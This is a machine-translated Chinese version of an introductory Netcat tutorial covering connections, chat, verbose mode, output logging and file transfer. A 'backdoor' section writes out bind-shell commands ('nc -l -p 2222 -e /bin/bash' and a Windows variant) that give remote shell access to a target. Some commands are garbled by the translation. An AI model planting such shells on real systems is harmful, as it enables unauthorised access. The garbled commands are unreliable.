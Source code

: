 # 网猫介绍

> 原文:[https://www.geeksforgeeks.org/introduction-to-netcat/](https://www.geeksforgeeks.org/introduction-to-netcat/)

**Netcat** 或 NC 是一个实用工具，使用 TCP 和 UDP 连接在网络中进行读写。它可以用于攻击和安全。在进攻的情况下。这有助于我们在投资的同时调试网络。它运行在所有操作系统上。

**网猫入门**
要启动 NC，最基本的选项我们可以使用 help 命令。这将向我们展示我们可以使用 Netcat 的所有选项。帮助命令如下:nc -h

**连接服务器**
这里，我们已经连接了 IP 地址为 192.168.1.6 的 FTP 服务器。在运行特定服务的特定端口连接到服务器。在我们的例子中，端口是 21，即 FTP。

> 语法:NC[目标 IP 地址][目标端口]
> nc 192.168.17.43 21

**聊天**
网猫也可以用来在两个用户之间聊天。我们需要在聊天前建立联系。为此，我们需要两个设备。一个将扮演发起者的角色，另一个将成为开始对话的倾听者，因此一旦建立了连接，就可以从两端进行通信。首先我们将使用 windows 10 机器，它将扮演监听器的角色。其次，我们将使用 Kali linux 机器，它将扮演发起者的角色。首先，我们必须创建一个监听器。我们将使用以下命令创建一个侦听器:
nc -lvvp 4444
其中，
【-l】:侦听模式
【vv】:详细模式{它可以使用一次，但我们使用两次会更详细}
【p】:本地端口
现在，是时候创建一个启动器了，为此，我们将只提供启动侦听器的系统的 IP 地址，后跟端口号。
**注意:**使用相同的端口创建一个用于创建侦听器的启动器。
nc 192.168.1.35 4444

 **创建后门**
我们也可以使用 NC 创建后门。在目标系统上创建一个我们可以随时返回的后门。攻击 Linux 系统的命令。
nc -l -p 2222 -e /bin/bash
为 windows 系统创建后门。
NC-l-p 1337-e hack.exe
这将在系统上打开一个侦听器，该侦听器将命令外壳或 Linux bash 外壳管道连接到连接系统。
nc 192.168.1.35 2222

**详细模式**
在 netcat 中，详细是一种可以使用[-v]参数启动的模式。现在详细模式生成扩展信息。基本上，我们将使用 netcat 连接到服务器两次，以查看正常模式和详细模式之间的区别。
**命令为 nc 192.168.17.43 21 -v**

**保存输出到桌面**
为了记录的维护，更好的可读性和以后的参考，我们将保存网猫的输出。为此，我们将使用 Netcat 的参数-o 将输出保存在文本文件中。

> NC 192 . 168 . 17 . 43 21-v-o/root/Desktop/result . txt

**文件传输**
网猫可以用来跨设备传输文件。在这里，我们将创建一个场景，其中我们将把一个文件从一个 windows 系统传输到 Kali Linux 系统。要从窗口发送文件，我们将使用以下命令。
nc -v -w 20 -p 8888 -l file.txt
所以，这是网猫的基本指南。这是一个非常有趣的工具，使用起来也非常简单。